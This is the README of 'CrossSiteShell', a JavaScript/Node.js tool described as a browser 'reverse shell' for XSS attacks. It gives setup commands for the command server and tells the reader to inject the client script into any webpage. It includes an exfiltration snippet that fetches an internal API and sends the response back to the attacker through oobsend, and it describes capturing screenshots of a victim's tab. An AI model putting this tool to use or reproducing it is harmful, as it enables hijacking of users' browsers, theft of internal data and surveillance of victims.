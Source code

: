 # CrossSiteShell

A javascript/nodejs "reverse shell" that makes it easier to interact with the victim's browser during XSS attacks.

![demo gif](/img/demo.gif)

## Usage

Run the following commands to start up the server:
```
npm install
node server.js
```

Then import the script located at `http(s)://yourserver/client.js` in any webpage.

### Arguments

You can use arguments to control the functionality of the script.

Use `--port` or `-p` to change the listening port and `--file` or `-f` to change the name of the payload file.

```
node server.js -p 8080 -f x.js
```

### Asynchronous data exfiltration
By default, the commands are executed through the eval function which is not asynchronous. To overcome this, I created a callback function (`window.oobsend(string)`) that sends data to the server asynchronously. Here's an example of how to use it to communicate with an internal API:

```js
fetch('https://internalservice/api').then(x => x.text().then(oobsend))
```

### Taking screenshots
By using the `.ss` command in the console, CrossSiteShell will attempt to take a screenshot of the victims tab. This is achieved by importing another library (html2canvas) that converts the HTML/CSS into a canvas and saves it's content as an image. The image should be saved to your disk after it gets received.

### HTTPS
HTTPS is not supported by default. I'd recommend using a reverse proxy such as nginx to redirect traffic to the script.